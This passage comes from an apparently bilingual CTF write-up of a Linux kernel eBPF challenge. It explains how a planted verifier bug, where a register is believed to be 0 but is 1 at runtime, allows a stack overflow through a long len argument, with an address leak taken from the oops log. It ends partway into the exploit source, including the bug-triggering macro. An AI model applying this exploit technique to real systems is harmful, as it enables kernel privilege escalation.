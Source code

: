 >                     one wishes to read large quantities of data at once
>                     from a packet into the eBPF stack.
>
>              Return 0 on success, or a negative error in case of
>                     failure.


如果我们可以让 len 大于栈上 buf 的长度，就可以直接栈溢出。由于添加的漏洞可以让我们获得一个运行时值为 1，而 verifier 认定为 0 的寄存器，所以可以很容易的指定一个很长的 len，并且骗过 verifier。

If we can make len larger than the length of the buf on the stack, we can just stack overflow. Since the added vulnerability allows us to get a register with a runtime value of 1 that the verifier determines to be 0, it is easy to specify a very long len and fool the verifier.

唯一的问题是 leak，也许可以通过溢出修改 bpf 栈上的指针变量实现任意地址读，但是笔者在调试时发现新版本内核在 ebpf 程序 crash（如 0 地址访问）时并不会造成内核崩溃（因为这属于 “soft panic”，当 /proc/sys/kernel/panic_on_oops 值为 0 时 soft panic 并不会直接 panic。似乎在默认情况下其值就是 0，如 Ubuntu 20.04。在 ctf 的 kernel pwn 题中，可能由于不希望被通过 crash 打印日志的方法 leak，一般都会在 qemu 启动项里通过 oops = panic 来让 soft panic 也直接造成 kernel 的重启），还会打出一些地址信息，笔者就直接通过这种方式完成 leak 了。

The only problem is leak, perhaps through the overflow to modify the bpf stack pointer variables to achieve arbitrary address read, but I found in debugging the new version of the kernel in the ebpf program crash (such as 0 address access) does not cause the kernel to crash (Because this is a "soft panic", soft panic does not panic directly when `/proc/sys/kernel/panic_on_oops` is 0. It seems that by default it is `0`, as in Ubuntu 20.04. In ctf's kernel pwn challenges, the soft panic is usually made to cause a direct kernel reboot by `oops = panic` in the qemu boot entry, probably because you don't want to be leaked by crashing and printing the log), but also hit some address information, the author will be directly through this way to complete the leak.

由于可以栈溢出，所以之后的利用非常简单，这里不再赘述。

Since it is possible to overflow the stack, the subsequent exploitation is very simple and will not be repeated here.

#### exp
```clike=
// x86_64-buildroot-linux-uclibc-cc core.c bpf_def.c bpf_def.h kernel_def.h -Os -static -masm=intel -s -o exp
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <linux/bpf.h>
#include <linux/bpf_common.h>
#include <sys/types.h>
#include <signal.h>
#include "kernel_def.h"
#include "bpf_def.h"

void error_exit(const char *msg)
{
    puts(msg);
    exit(1);
}

#define CONST_REG   BPF_REG_9
#define EXP_REG     BPF_REG_8

#define trigger_bug() \
    /* trigger the bug */       \
    BPF_MOV64_IMM(CONST_REG, 64),     \
    BPF_MOV64_IMM(EXP_REG, 0x1),      \
    /* make exp_reg believed to be 0, in fact 1 */     \
    BPF_ALU64_REG(BPF_RSH, EXP_REG, CONST_REG),      \
    BPF_MOV64_REG(BPF_REG_0, EXP_REG)

void get_root()
```